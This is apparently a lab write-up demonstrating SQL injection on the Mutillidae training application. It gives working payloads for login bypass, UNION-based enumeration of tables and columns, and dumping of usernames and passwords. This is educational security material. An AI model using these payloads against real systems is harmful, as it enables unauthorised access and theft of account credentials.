# SQL Injection

Exploiting unsanitized user input in SQL queries to bypass authentication or extract data directly from the database. Demonstrated on Mutillidae (OWASP Top 10 → Injection) using both authentication bypass and UNION-based data extraction techniques.

## Authentication Bypass

Login forms with unsanitized input can be bypassed using logical operators (AND/OR). The `#` character comments out the rest of the SQL query, including the password check.

### POST Method

`admin' OR 1=1#` → POST method — logs in as the first matching user (usually admin) without knowing the password.





### GET Method

`http://[target IP]/mutillidae/index.php?page=user-info.php&username=admin'%23&password=123&user-info-php-submit-button=View+Account+Details` → GET method — leaks the admin's real password directly in the response.





## UNION-Based Extraction

### ORDER BY

`admin' ORDER BY [n]#` → Find column count by incrementing until an error appears; the last working number is the column count (5 in this case).







### UNION SELECT

`admin' UNION SELECT 1, database(), user(), version(), 5 #` → Detects which columns are reflected on screen and leaks the database name, user, and version.





### Table Extraction

`admin' UNION SELECT 1, table_name, null, null, 5 FROM information_schema.tables WHERE table_schema = 'owasp10' #` → Lists all table names inside the target database using information_schema.





### Column Extraction

`admin' UNION SELECT 1, column_name, null, null, 5 FROM information_schema.columns WHERE table_name = 'accounts' #` → Lists all column names inside the accounts table.





### Data Extraction

`admin' UNION SELECT 1, username, password, is_admin, 5 FROM accounts #` → Extracts real usernames, passwords, and admin status from the accounts table.





---

SQL injection attacks can also be automated using SQLMap, which handles detection, database enumeration, and data extraction without manual payload crafting.
